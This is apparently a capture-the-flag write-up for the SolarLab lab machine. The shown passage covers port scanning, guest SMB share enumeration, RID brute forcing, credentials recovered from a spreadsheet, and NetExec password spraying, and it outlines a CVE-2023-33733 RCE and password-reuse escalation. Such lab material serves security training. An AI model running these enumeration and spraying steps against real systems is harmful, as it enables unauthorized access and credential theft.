










## Summary

The box directly shows a `subdomain` called `report.solarlab.htb` in the `Nmap` output which runs the application `ReportHub`. To get credentials to it you have to enumerate a `SMB` share on port `445/TCP` for a file called `details-file.xslx`. Since `IPC$` is also readable as a `guest` user, you can extract two `usernames` called `blake` and `openfire` via `RID Brute Forcing`. The `Excel` file contains various `credentials` and `naming schemes`. From here on you could either create a custom `wordlist` based on the usernames already given to you and `brute force` the `login form` or you can play the `guessing game` and get working credentials for a user called `BlakeB` with a password from the `Excel` file. After login navigate to `Travel Approval`. A quick research give you information about `CVE-2023-33733` which is `HTML Injection` on `ReportHub` to execute `arbitrary commands` on the target system. Sending a crafted payload from this form via `Burp Suite` gives you `foothold` on the box and also the `user.txt`. To escalate your privileges from `blake` to `openfire` you have to extract some `credentials` from a file called `users.db` inside the `application folder` located in his `Documents` folder. After gaining a shell as `openfire`, checkout the `Openfire` folder in `Program Files` to extract a `hash` and a `key` from a `openfire.script` file which you can use to `decrypt` and to gain the `password` for the local `administrator`.

## Table of Contents

- [Reconnaissance](#Reconnaissance)
  - [Port Scanning](#Port-Scanning)
- [Password Spraying](#Password-Spraying)
- [Accessing ReportHub](#Accessing-ReportHub)
- [Foothold](#Foothold)
  - [CVE-2023-33733: Remote Code Execution in ReportHub via HTML Injection](#CVE-2023-33733-Remote-Code-Execution-in-ReportHub-via-HTML-Injection)
- [user.txt](#usertxt)
- [Persistence](#Persistence)
- [Enumeration](#Enumeration)
- [Privilege Escalation to openfire](#Privilege-Escalation-to-openfire)
  - [Password Reuse Part 1](#Password-Reuse-Part-1)
- [Pivoting](#Pivoting)
- [Privilege Escalation to System](#Privilege-Escalation-to-System)
  - [Password Reuse Part 2](#Password-Reuse-Part-2)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Reconnaissance

### Port Scanning

We started with our usual `port scans` to have a full picture of all available ports. The fact that only port `445/TCP` was open, made us having a closer look on the second scan which revealed port `TCP/6791`. The scan also listed a `subdomain` called `report.solarlab.htb`.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.14.72
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-11 15:01 EDT
Nmap scan report for 10.129.14.72
Host is up (0.018s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
80/tcp  open  http          nginx 1.24.0
|_http-title: Did not follow redirect to http://solarlab.htb/
|_http-server-header: nginx/1.24.0
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-11T19:02:06
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.71 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- 10.129.14.72
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-11 15:05 EDT
Nmap scan report for solarlab.htb (10.129.14.72)
Host is up (0.017s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          nginx 1.24.0
|_http-title: SolarLab Instant Messenger
|_http-server-header: nginx/1.24.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
6791/tcp open  http          nginx 1.24.0
|_http-server-header: nginx/1.24.0
|_http-title: Did not follow redirect to http://report.solarlab.htb:6791/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-11T19:07:36
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 170.78 seconds
```

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -sU 10.129.14.72
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-11 15:08 EDT
Nmap scan report for solarlab.htb (10.129.14.72)
Host is up (0.018s latency).
All 1000 scanned ports on solarlab.htb (10.129.14.72) are in ignored states.
Not shown: 1000 open|filtered udp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5097.87 seconds
```

The scans showed a `subdomain` called `report.solarlab.htb`, running on port `6791/TCP`. We added both, `solarlab.htb` and `report.solarlab.htb` to our `/etc/hosts` file.

#### Enumeration of Port 80/TCP

As we accessed the box on port `80/TCP`, but on the main `website` we didn't find anything useful.

- [http://10.129.14.72/](http://10.129.14.72/)

```c
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.14.72    solarlab.htb
10.129.14.72    report.solarlab.htb
```

- [http://solarlab.htb/](http://solarlab.htb)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://solarlab.htb/
http://solarlab.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.24.0], IP[10.129.14.72], JQuery[2.1.0], Meta-Author[Jewel Theme], Modernizr[2.8.0.min], Script[text/javascript], Title[SolarLab Instant Messenger], X-UA-Compatible[IE=edge], nginx[1.24.0]
```



#### Enumeration of Port 6791/TCP

We accessed the `subdomain` our `Nmap` scan showed on port `6791/TCP` and found a `login panel` for `ReportHub`.

- [http://report.solarlab.htb:6791/](http://report.solarlab.htb:6791/)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://report.solarlab.htb:6791/
http://report.solarlab.htb:6791/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.24.0], IP[10.129.14.72], PasswordField[password], Title[Login - ReportHub], nginx[1.24.0]
```



#### Enumeration of Port 445/TCP

Port `445/TCP` had some interesting files and options prepared. The share `IPC$` was `readable` by `anonymous` accounts which gave us the option to `RID brute forcing`. Through this we found two usernames called `blake` and `openfire`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.14.72 -u 'guest' -p '' --shares
SMB         10.129.14.72    445    SOLARLAB         [*] Windows 10.0 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.129.14.72    445    SOLARLAB         [+] solarlab\guest: 
SMB         10.129.14.72    445    SOLARLAB         [*] Enumerated shares
SMB         10.129.14.72    445    SOLARLAB         Share           Permissions     Remark
SMB         10.129.14.72    445    SOLARLAB         -----           -----------     ------
SMB         10.129.14.72    445    SOLARLAB         ADMIN$                          Remote Admin
SMB         10.129.14.72    445    SOLARLAB         C$                              Default share
SMB         10.129.14.72    445    SOLARLAB         Documents       READ            
SMB         10.129.14.72    445    SOLARLAB         IPC$            READ            Remote IPC
```

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.14.72 -u 'guest' -p '' --rid-brute
SMB         10.129.14.72    445    SOLARLAB         [*] Windows 10.0 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.129.14.72    445    SOLARLAB         [+] solarlab\guest: 
SMB         10.129.14.72    445    SOLARLAB         500: SOLARLAB\Administrator (SidTypeUser)
SMB         10.129.14.72    445    SOLARLAB         501: SOLARLAB\Guest (SidTypeUser)
SMB         10.129.14.72    445    SOLARLAB         503: SOLARLAB\DefaultAccount (SidTypeUser)
SMB         10.129.14.72    445    SOLARLAB         504: SOLARLAB\WDAGUtilityAccount (SidTypeUser)
SMB         10.129.14.72    445    SOLARLAB         513: SOLARLAB\None (SidTypeGroup)
SMB         10.129.14.72    445    SOLARLAB         1000: SOLARLAB\blake (SidTypeUser)
SMB         10.129.14.72    445    SOLARLAB         1001: SOLARLAB\openfire (SidTypeUser)
```

| Username |
| -------- |
| blake    |
| openfire |

We also downloaded all files in the `readable` share `Documents` using `NetExec`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.129.14.72 -u 'guest' -p '' --shares -M spider_plus -o DOWNLOAD_FLAG=true
SMB         10.129.14.72    445    SOLARLAB         [*] Windows 10.0 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.129.14.72    445    SOLARLAB         [+] solarlab\guest: 
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] Started module spidering_plus with the following options:
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*]  DOWNLOAD_FLAG: True
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*]     STATS_FLAG: True
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*]  MAX_FILE_SIZE: 50 KB
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*]  OUTPUT_FOLDER: /tmp/nxc_spider_plus
SMB         10.129.14.72    445    SOLARLAB         [*] Enumerated shares
SMB         10.129.14.72    445    SOLARLAB         Share           Permissions     Remark
SMB         10.129.14.72    445    SOLARLAB         -----           -----------     ------
SMB         10.129.14.72    445    SOLARLAB         ADMIN$                          Remote Admin
SMB         10.129.14.72    445    SOLARLAB         C$                              Default share
SMB         10.129.14.72    445    SOLARLAB         Documents       READ            
SMB         10.129.14.72    445    SOLARLAB         IPC$            READ            Remote IPC
SPIDER_P... 10.129.14.72    445    SOLARLAB         [+] Saved share-file metadata to "/tmp/nxc_spider_plus/10.129.14.72.json".
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] SMB Shares:           4 (ADMIN$, C$, Documents, IPC$)
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] SMB Readable Shares:  2 (Documents, IPC$)
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] SMB Filtered Shares:  1
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] Total folders found:  4
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] Total files found:    5
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] Files filtered:       1
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] File size average:    47.37 KB
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] File size min:        278 B
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] File size max:        157.56 KB
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] File unique exts:     3 (.docx, .ini, .xlsx)
SPIDER_P... 10.129.14.72    445    SOLARLAB         [*] Downloads successful: 4
SPIDER_P... 10.129.14.72    445    SOLARLAB         [+] All files processed successfully.
```

```c
┌──(kali㉿kali)-[/tmp/nxc_spider_plus/10.129.14.72/Documents]
└─$ find .
.
./old_leave_request_form.docx
./desktop.ini
./details-file.xlsx
./concepts
./concepts/Travel-Request-Sample.docx
```

#### Investigating the Files

We started having a closer look at the files by checking the `metadata` using `Exiftool`, to write down any potential `usernames`.

```c
┌──(kali㉿kali)-[/media/…/files/10.129.14.72/Documents/concepts]
└─$ exiftool Travel-Request-Sample.docx 
ExifTool Version Number         : 12.76
File Name                       : Travel-Request-Sample.docx
Directory                       : .
File Size                       : 31 kB
File Modification Date/Time     : 2024:05:11 15:17:02-04:00
File Access Date/Time           : 2024:05:11 15:17:02-04:00
File Inode Change Date/Time     : 2024:05:11 15:18:32-04:00
File Permissions                : -rwxrwx---
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x7d32bdda
Zip Compressed Size             : 440
Zip Uncompressed Size           : 1997
Zip File Name                   : [Content_Types].xml
Title                           : 
Subject                         : 
Creator                         : Paul Squillace
Keywords                        : 
Description                     : 
Last Modified By                : Katy Brown
Revision Number                 : 2
Create Date                     : 2015:06:14 14:49:00Z
Modify Date                     : 2015:06:14 14:49:00Z
Template                        : Normal.dotm
Total Edit Time                 : 1 minute
Pages                           : 1
Words                           : 351
Characters                      : 2003
Application                     : Microsoft Macintosh Word
Doc Security                    : Read-only enforced
Lines                           : 16
Paragraphs                      : 4
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 : 
Company                         : Microsoft
Links Up To Date                : No
Characters With Spaces          : 2350
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 14.0000
```

```c
┌──(kali㉿kali)-[/media/…/SolarLab/files/10.129.14.72/Documents]
└─$ exiftool details-file.xlsx 
ExifTool Version Number         : 12.76
File Name                       : details-file.xlsx
Directory                       : .
File Size                       : 13 kB
File Modification Date/Time     : 2024:05:11 15:17:03-04:00
File Access Date/Time           : 2024:05:11 15:17:03-04:00
File Inode Change Date/Time     : 2024:05:11 15:18:32-04:00
File Permissions                : -rwxrwx---
File Type                       : XLSX
File Type Extension             : xlsx
MIME Type                       : application/vnd.openxmlformats-officedocument.spreadsheetml.sheet
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0xd125f54a
Zip Compressed Size             : 388
Zip Uncompressed Size           : 1681
Zip File Name                   : [Content_Types].xml
Creator                         : College of Education
Last Modified By                : Paul Serban
Create Date                     : 2011:03:24 14:38:51Z
Modify Date                     : 2023:11:17 12:27:21Z
Application                     : Microsoft Excel
Doc Security                    : None
Scale Crop                      : No
Heading Pairs                   : Worksheets, 3
Titles Of Parts                 : Sheet1, Sheet2, Sheet3
Company                         : Purdue University
Links Up To Date                : No
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 16.0300
MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_Enabled: true
MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_SetDate: 2023-11-17T10:41:19Z
MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_Method: Standard
MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_Name: All Employees_2
MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_SiteId: 33440fc6-b7c7-412c-bb73-0e70b0198d5a
MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_ActionId: c1afab2c-84d2-450d-9066-dcc727984137
MSIP_Label_e463cba9-5f6c-478d-9329-7b2295e4e8ed_ContentBits: 0
```

```c
┌──(kali㉿kali)-[/media/…/SolarLab/files/10.129.14.72/Documents]
└─$ exiftool old_leave_request_form.docx 
ExifTool Version Number         : 12.76
File Name                       : old_leave_request_form.docx
Directory                       : .
File Size                       : 37 kB
File Modification Date/Time     : 2024:05:11 15:17:03-04:00
File Access Date/Time           : 2024:05:11 15:17:03-04:00
File Inode Change Date/Time     : 2024:05:11 15:18:32-04:00
File Permissions                : -rwxrwx---
File Type                       : DOCX
File Type Extension             : docx
MIME Type                       : application/vnd.openxmlformats-officedocument.wordprocessingml.document
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x5c9ce90a
Zip Compressed Size             : 483
Zip Uncompressed Size           : 2460
Zip File Name                   : [Content_Types].xml
_NewReviewCycle                 : 
Creator                         : Alison Melville
Last Modified By                : Jackie
Revision Number                 : 3
Create Date                     : 2015:07:06 22:19:00Z
Modify Date                     : 2015:08:03 16:50:00Z
Template                        : Normal
Total Edit Time                 : 1 minute
Pages                           : 1
Words                           : 142
Characters                      : 814
Application                     : Microsoft Office Word
Doc Security                    : None
Lines                           : 6
Paragraphs                      : 1
Scale Crop                      : No
Heading Pairs                   : Title, 1
Titles Of Parts                 : 
Company                         : Greig Melville Associates Limited
Links Up To Date                : No
Characters With Spaces          : 955
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 14.0000
```

| Username             |
| -------------------- |
| Paul Squillace       |
| Katy Brown           |
| College of Education |
| Paul Serban          |
| Alison Melville      |
| Jackie               |

After we finished doing that we opened the files and had look at their content. The file `details-file.xslx` contained `usernames`, `passwords` and various other sensitive informations.



| Username                   | Password               |
| -------------------------- | ---------------------- |
| Alexander.knight@gmail.com | al;ksdhfewoiuh         |
| KAlexander                 | dkjafblkjadsfgl        |
| Alexander.knight@gmail.com | d398sadsknr390         |
| blake.byte                 | ThisCanB3typedeasily1@ |
| AlexanderK                 | danenacia9234n         |
| ClaudiaS                   | dadsfawe9dafkn         |

## Password Spraying

To `verify` any of the newly found usernames, we `password sprayed` the `usernames` and `passwords` using `NetExec`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/SolarLab/files]
└─$ netexec smb 10.129.14.72 -u 'usernames.txt' -p 'passwords.txt' --shares
SMB         10.129.14.72    445    SOLARLAB         [*] Windows 10.0 Build 19041 x64 (name:SOLARLAB) (domain:solarlab) (signing:False) (SMBv1:False)
SMB         10.129.14.72    445    SOLARLAB         [+] solarlab\Alexander.knight@gmail.com:al;ksdhfewoiuh 
SMB         10.129.14.72    445    SOLARLAB         [*] Enumerated shares
SMB         10.129.14.72    445    SOLARLAB         Share           Permissions     Remark
SMB         10.129.14.72    445    SOLARLAB         -----           -----------     ------
SMB         10.129.14.72    445    SOLARLAB         ADMIN$                          Remote Admin
SMB         10.129.14.72    445    SOLARLAB         C$                              Default share
